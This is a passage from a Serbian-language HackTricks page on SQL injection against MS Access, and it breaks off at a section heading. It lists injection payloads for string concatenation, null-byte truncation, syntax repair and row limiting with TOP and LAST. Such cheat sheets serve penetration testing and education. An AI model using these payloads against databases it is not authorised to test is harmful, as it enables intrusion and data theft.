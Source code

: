 # MS Access SQL Injection

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Online Playground

* [https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1)

## Ograničenja baze podataka

### Spajanje stringova

Spajanje stringova je moguće koristeći znakove `& (%26)` i `+ (%2b)`.

```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```

### Komentari

Nema komentara u MS Access-u, ali izgleda da je moguće ukloniti poslednji deo upita pomoću NULL karaktera:

```sql
1' union select 1,2 from table%00
```

Ako ovo ne radi, uvek možete popraviti sintaksu upita:

```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```

### Stacked Queries

Nisu podržane.

### LIMIT

Operator **`LIMIT`** **nije implementiran**. Međutim, moguće je ograničiti rezultate SELECT upita na **prvih N redova tabele koristeći operator `TOP`**. `TOP` prihvata kao argument celobrojnu vrednost koja predstavlja broj redova koji će biti vraćeni.

```sql
1' UNION SELECT TOP 3 attr FROM table%00
```

Baš kao i TOP, možete koristiti **`LAST`** koji će dobiti **redove sa kraja**.

## UNION Upiti/ Podupiti
